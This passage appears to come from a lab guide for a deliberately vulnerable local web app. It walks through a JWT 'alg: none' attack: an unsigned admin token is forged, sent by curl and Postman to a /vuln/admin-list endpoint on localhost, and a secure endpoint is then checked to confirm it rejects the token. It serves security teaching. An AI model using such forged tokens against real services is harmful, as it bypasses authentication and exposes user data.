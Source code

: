 
### Attack 2: JWT `alg: none` Attack

**Vulnerable Endpoint:** `GET /vuln/admin-list`

#### Step 1: Generate a Token with `alg: none`

Use the provided utility:

```bash
node forge_token.js --alg none --sub admin
```

**Output:**
```
ALG NONE token:
 eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJhZG1pbiJ9.
```

#### Step 2: Use the Forged Token Against the Vulnerable Endpoint

**Using curl:**
```bash
FORGED_TOKEN="eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJhZG1pbiJ9."

curl -X GET http://localhost:1234/vuln/admin-list \
  -H "Authorization: Bearer $FORGED_TOKEN"
```

**Using Postman:**
1. GET request to `http://localhost:1234/vuln/admin-list`
2. Headers tab: Add `Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJhZG1pbiJ9.`
3. Send

**Expected Response (Vulnerable):**
```json
{
  "users": [
    {"id": 1, "username": "admin"},
    {"id": 2, "username": "alice"},
    {"id": 3, "username": "bob"}
  ],
  "acceptedAs": "admin",
  "note": "VULNERABLE: token was accepted without signature verification"
}
```

#### Step 3: Verify the Secure Endpoint Rejects It

Try the same token against `GET /admin/list-users`:

```bash
curl -X GET http://localhost:1234/admin/list-users \
  -H "Authorization: Bearer $FORGED_TOKEN"
```
